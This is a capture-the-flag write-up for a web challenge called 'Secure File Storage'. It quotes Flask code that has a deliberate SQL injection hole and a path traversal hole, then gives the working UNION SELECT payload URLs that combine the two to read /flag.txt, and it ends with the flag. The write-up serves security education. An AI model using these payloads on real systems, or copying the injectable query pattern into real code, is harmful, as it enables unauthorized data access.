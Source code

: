 # Web: Secure File Storage (477)

The new USCG file storage server has a lot of cool security features to keep you and your sensitive files safe! It seems pretty impossible to exploit...or is it?

[http://storage.challs.uscybergames.com](http://storage.challs.uscybergames.com)

Author: [tsuto](https://github.com/jselliott)

Luckily, we are given the source code for this web challenge!

First, we can see a flag.txt file (not the real flag) in the root directory. And in our Dockerfile, we can see that the flag is in the root directory.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

And we can also see in config.py that the default upload folder is `/app/uploads`.

```py
    UPLOAD_FOLDER = "/app/uploads"
```

In database.py, we also see an interesting function...

```py
def fetch_file_db(user_id,file_id):
    try:
        file = db.session.execute(text(f"SELECT * FROM File WHERE id = {file_id}")).first()
        if file:
            filepath = decrypt(file.filepath)
            filename = decrypt(file.filename)
            if file.user_id == user_id and filepath is not None and filename is not None:
                return {"id":file.id,"filepath":filepath.decode(),"filename":filename.decode(),"title":file.title, "encrypted":file.encrypted}
        return False
    except Exception as e:
        logging.error(e)
        return False
```

Using `db.session.execute` makes this very likely to be vulnerable to SQL injection!

Also, we can find the schema for the file table.

```py
class File(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, nullable=False)
    title = db.Column(db.String(256), nullable=False)
    filename = db.Column(db.String(256), nullable=False)
    filepath = db.Column(db.String(256), nullable=False)
    encrypted = db.Column(db.Integer, nullable=False)
```

This tells us that there is an id, user_id that created the file, title of the file, a filename, a file path, and an integer telling if it was encrypted or not.

In api.py, we can see where this is referenced:

```py
@api.route('/files/download/<file_id>', methods=['GET'])
@isAuthenticated
def download_file(file_id,user):

    if not file_id:
        flash('No file ID provided.',"danger")
        return redirect("/files")
    
    file = fetch_file_db(user["id"],file_id)

    if not file:
        flash('Invalid file provided, or you may not have permission to view this file.',"danger")
        return redirect("/files")
    
    if file["encrypted"]:
        content = open(os.path.join(file["filepath"],file["filename"]),"rb").read()
        F = BytesIO(decrypt(content))
    else:
        F = open(os.path.join(file["filepath"],file["filename"]),"rb")

    return send_file(F, as_attachment=True, download_name=file["filename"])
```

So, it is very likely that there is SQL injection possible in the file downloading endpoint. Also, since this just opens the path from combining the filepath and filename, we might even have directory traversal!

So, we will want to use a filepath of `../../` to traverse back to the root directory and a filename of `flag.txt` to get `/flag.txt`. However, there is a problem...

This is the file upload code:
```py
@api.route('/files/upload', methods=['POST'])
@isAuthenticated
def upload_file(user):

    file = request.files.get("file")
    title = request.form.get("title")

    if not file or file.filename == "":
        flash('You must select a file to upload.',"danger")
        return redirect("/files")
    
    if not title or title == "":
        flash('You must enter a title for your file.',"danger")
        return redirect("/files")
    
    if not allowed_file(file.filename):
        flash(f'The following filetypes are allowed: [{",".join(app.config["ALLOWED_EXTENSIONS"])}]',"danger")
        return redirect("/files")
    
    filename = secure_filename(file.filename)
    filepath = os.path.join(app.config['UPLOAD_FOLDER'],user["username"])
    file.save(os.path.join(filepath,filename))

    #Read and encrypt file contents
    F = open(os.path.join(filepath,filename),"rb")
    content = encrypt(F.read())
    F.close()

    # Write encrypted contents
    F = open(os.path.join(filepath,filename),"wb")
    F.write(content)
    F.close()

    insert_file_db(user["id"],filepath,filename,title)

    flash('File uploaded successfully!',"success")
    return redirect("/files")
```

Notably, the file name is first secured and then encrypted. This is also why the `fetch_file_db` function decrypts the file path and name. But also the file contents are encrypted by default. And since we can control whether or not the file is encrypted through the SQL injection, we can use this to find the encrypted version of our path to then inject.

First, we'll need to make a file, `flag.txt` to upload, containing the contents `../../`.  With this, we can use the file name of this file and use the encrypted contents as the path.

Then, we upload this file.

![Image 1](Screenshots/1.png)

Now, we can see our file here.

![Image 2](Screenshots/2.png)

Hovering over the download icon, we can copy the link and find that the link to the file is `http://storage.challs.uscybergames.com/api/files/download/46989`.

This last number is the ID of the file.

Now, if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20filepath,%200%20from%20File%20where%20id%20=%2046989`, we can get the encrypted filepath.

And our path is `iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=`. 

And if we go to `http://storage.challs.uscybergames.com/api/files/download/-1%20union%20select%20id,%20user_id,%20title,%20filename,%20'iweP1EvL0nIplO0HchSf3w0p5kmRFkpjmdKnhjveHbQ=',%200%20from%20File%20where%20id%20=%2046989`, we can get the flag!

When we do this, we get a downloaded file, containing the flag, `SIVUSCG{b1t_fl1pp3d_f1l3s}`!